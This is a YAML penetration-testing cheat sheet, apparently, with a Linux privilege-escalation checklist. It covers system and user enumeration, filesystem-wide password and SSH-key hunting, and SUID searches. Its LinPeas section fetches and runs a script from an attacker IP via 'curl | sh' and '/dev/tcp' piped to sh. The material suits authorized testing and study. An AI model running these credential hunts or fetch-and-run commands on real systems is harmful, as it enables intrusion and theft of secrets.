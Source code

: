 ```yaml
---
functions:
  privilege-escalation:
    - description: Simplistic and standard checklist for linux privilege escalation, in no particular order
      code: |
        Feel free to copy paste the entire listing below
        System Info Enum:
        - [ ] uname -a
        - [ ] cat /etc/issue
        - [ ] cat /etc/*-release
        - [ ] cat /proc/version
        - [ ] lsb_release -a
        - [ ] ps aux
        - [ ] lscpu
        - [ ] env
        - [ ] echo $PATH
        - [ ] sudo -l
        - [ ] hostname
        - [ ] mount
        - [ ] dpkg -l
        - [ ] cat /etc/fstab
        - [ ] ssh -V
        - [ ] /bin/lsblk
        - [ ] lsmod

        User Enum:
        - [ ] whoami
        - [ ] id
        - [ ] cat /etc/passwd
        - [ ] cat /etc/group
        - [ ] history

        Network Enum:
        - [ ] ip a
        - [ ] ifconfig
        - [ ] /sbin/route
        - [ ] netstat -plant

        Task Scheduling:
        - [ ] cat /etc/crontab
        - [ ] grep "CRON" /var/log/cron.log
        - [ ] process momintoring (below script)

        Password Hunting:
        - [ ] grep --color=auto -rnw '/' -ie "PASSWORD=" 2>/dev/null
        - [ ] locate pass | more
        - [ ] find / -name id_rsa 2>/dev/null
        - [ ] find / -type f -exec grep -rnw --color=auto -i -I "PASSWORD" {} 2> /dev/null \;
        find . -type f -exec grep --color=auto -Hrnwie "PASSWORD" {} 2> /dev/null \;  #search specific folders

        


        File Permission Searching:
        - [ ] find / -type f -perm -2 2>/dev/null | grep -v "^/proc/"                     #world writable
        - [ ] find / -user root -perm -002 -type f 2>/dev/null | grep -v "^/proc/"     #world writable ownd by root
        - [ ] ls -al $(find / -perm -1000 -type d 2>/dev/null)   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
        - [ ] ls -al $(find / -perm -g=s -type f 2>/dev/null)    # SGID (chmod 2000) - run as the group, not the user who started it.
        - [ ] ls -al $(find / -perm -u=s -type f 2>/dev/null)    # SUID (chmod 4000) - run as the owner, not the user who started it.
        - [ ] for file in $(find / -perm -u=s -type f 2>/dev/null ); do ls -al $file; done;
        - [ ] find / -xdev -user root -perm -o+w -type f 2>/dev/null
        - [ ] find / -xdev -group admin -perm -o+w -type f 2>/dev/null
        - [ ] find / -perm -u=s -type f -exec "ls -al {}" \; 2>/dev/null
        - [ ] ls -al /etc/iptables/* -R
        - [ ] ls -lah /etc/cron*        

        MONITOR PROCESSES:
        ------------------
        #!/bin/bash
        IFS=$'\n'
        old_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)
        while true; do
          new_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)
          diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
          sleep 1
          old_process=$new_process
        done

    - description: LinPeas
      code: |
        curl http://10.10.10.10/linpeas.sh | sh
        cd /tmp; wget http://10.10.10.10/linpeas.sh && sh linpeas.sh

        sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
        cat < /dev/tcp/10.10.10.10/80 | sh #Victim

        # Output to file
        ./linpeas.sh -a > /dev/shm/linpeas.txt

    - description: Linux Exploit Suggester
      code: |
        perl linux-exploit-suggester.pl

          #############################
            Linux Exploit Suggester 2
          #############################

          Local Kernel: 2.6.32
          Searching 72 exploits...

          Possible Exploits
          [1] american-sign-language
              CVE-2010-4347
              Source: http://www.securityfocus.com/bid/45408
          [2] can_bcm
              CVE-2010-2959
              Source: http://www.exploit-db.com/exploits/14814

        ...
        ...

        Use the -k flag to manually enter a wildcard for the kernel/operating system release version.
        perl linux-exploit-suggester.pl -k 3



resources: |
  https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl
  https://github.com/SecWiki/linux-kernel-exploits
  https://github.com/lucyoa/kernel-exploits
  https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

---
```


